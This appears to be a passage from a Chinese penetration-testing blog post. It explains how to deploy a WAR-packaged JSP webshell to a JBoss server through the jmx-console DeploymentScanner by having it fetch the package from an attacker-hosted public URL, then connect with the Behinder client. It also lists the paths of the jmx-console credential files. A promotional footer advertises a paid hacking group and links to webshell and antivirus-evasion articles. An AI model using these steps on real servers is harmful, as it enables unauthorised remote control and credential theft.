

War 包是由 shell.jsp 生成的（这里很关键，因为会影响 webshell 的路径）



然后把 war 包放到公网上映射出来，如 http://ip: 端口 / aufeng.war, 然后在下面的功能点 void add url 中的 Param vule 中帖上 war 包公网的地址，然后点击 invoke



就会有如下的页面，但不能确定是上传成功的



所以要回到之前回到 flavor=URL,type=DeploymentScanner 页面点击下属性列表中的 "Apply change"

同用 url 地址

```
http://ip:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.deployment%3Atype%3DDeploymentScanner%2Cflavor%3DURL

```



然后等待的时间是有点长的，我当时是等了 20 分钟左右。在 jmx-console 目录下的 deployment 中的 war 包中如果能看到才能证明是上传成功



Webshell 的地址是 war 包的名字 + 生成 war 包 webshell 的名字

成功连上冰歇马





jboss 控制台用户密码（jmx-console）的路径

```
/jboss/jboss4/server/default/deploy/management/console-mgr.sar/web-console.war/WEB-INF/classes#

```

```
/opt/jboss/jboss4/server/default/conf/props/jmx-console-users.properties

```



**知识星球**

**★  
**

**付费圈子  
**

  

  

**欢 迎 加 入 星 球 ！**

**代码审计 + 免杀 + 渗透学习资源 + 各种资料文档 + 各种工具 + 付费会员**


  

****进成员内部群****


  

  


  

****星球的最近主题和星球内部工具一些展示****


****

**关 注 有 礼**

  

  

关注下方公众号回复 “666” 可以领取一套领取黑客成长秘籍

 还在等什么？赶紧点击下方名片关注学习吧！

  

**推荐阅读**

[**************群聊 | 技术交流群 - 群除我佬**************](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247489372&idx=1&sn=5e14ba5fa59059fb1ee405e56ef90d40&chksm=c175eaf3f60263e5ef5415a8a9fc134f0890fdb9c25ab956116d17109baf98b3bd6bed572a2d&scene=21#wechat_redirect)

[****干货｜史上最全一句话木马****](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247489259&idx=1&sn=b268701409ad4e8785cd5ebc23176fc8&chksm=c175eb44f60262527120100bd353b3316948928bd7f44cf9b6a49f89d5ffafad88c6f1522226&scene=21#wechat_redirect)

[**干货 | CS 绕过 vultr 特征检测修改算法**](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247486980&idx=1&sn=6d65ae57f03bd32fddb37d7055e5ac8e&chksm=c175f3abf6027abdad06009b2fe964e79f2ca60701ae806b451c18845c656c12b9948670dcbc&scene=21#wechat_redirect)  

[**实战 | 用中国人写的红队服务器搞一次内网穿透练习**](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247488628&idx=1&sn=ff2c617cccc00fe262ed9610c790fe0e&chksm=c175e9dbf60260cd0e67439304c822d28d510f1e332867e78a07d631ab27143309d14e27e53f&scene=21#wechat_redirect)  

[**实战 | 渗透某培训平台经历**](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247488613&idx=1&sn=12884f3d196ac4f5c262a587590d516d&chksm=c175e9caf60260dcc0d5d81a560025d548c61fda975d02237d344fd79adc77ac592e7e562939&scene=21#wechat_redirect)  

[**实战 | 一次曲折的钓鱼溯源反制**](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247489278&idx=1&sn=5347fdbf7bbeb3fd37865e191163763f&chksm=c175eb51f602624777fb84e7928bb4fa45c30f35e27f3d66fc563ed97fa3c16ff06d172b868c&scene=21#wechat_redirect)

**免责声明**

由于传播、利用本公众号渗透安全团队所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号渗透安全团队及作者不为**此**承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！

好文分享收藏赞一下最美点在看哦

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
